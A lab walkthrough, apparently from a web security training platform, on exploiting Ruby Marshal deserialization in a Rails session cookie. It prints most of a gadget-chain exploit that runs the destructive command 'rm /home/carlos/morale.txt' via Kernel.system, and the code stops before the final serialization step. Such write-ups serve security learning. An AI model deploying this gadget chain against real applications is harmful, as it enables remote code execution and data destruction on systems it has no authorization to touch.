We start the lab by logging into our account,and copy the cookie


<img width="1334" height="855" alt="image" src="https://github.com/user-attachments/assets/987c8d0d-26e2-41cf-9f7b-52e823ff128e" />


Decoding the cookie session shows marshall-dump ‘conversion to byte array’ for the object and a marshal-load which tries to reconstruct the object, this clearly indicates that the object is ruby serialized.


Ruby, a popular web development language, offers a built-in feature called "serialization" to convert objects into a byte stream (series of bytes) that can be easily stored and transmitted. This process is achieved using the Marshal library.


• **marshall-dump**: This suggests that the object in the cookie was first converted into a byte array using the Marshal.dump method.
• **marshal-load**: This implies that the server, upon receiving the cookie, attempts to reconstruct the original object from the byte array using Marshal.load.



<img width="1724" height="417" alt="image" src="https://github.com/user-attachments/assets/c46874ab-c275-4afc-afc4-adab7c8aa41a" />


In the statement, it is specified that the server uses the Ruby on Rails (ROR) framework.
We will use a script written by Luke Jahnke ( `https://www.elttam.com/blog/ruby-deserialization/#content`) which will generate a serialized object taking advantage of a " gadjet chain"present in the framework used, to execute a command (in our context we want to delete the morale.txt file )

With this knowledge, we can try craft an exploit with the command we need to execute, in this case ‘rm /home/carlos/morale.txt’
in this case, we will use a Universal Deserialisation Gadget for Ruby 2.x-3.x exploit by Vaks  https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html and replace the parameters to the final exploit shown below.

 code
```
require 'base64'
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)
```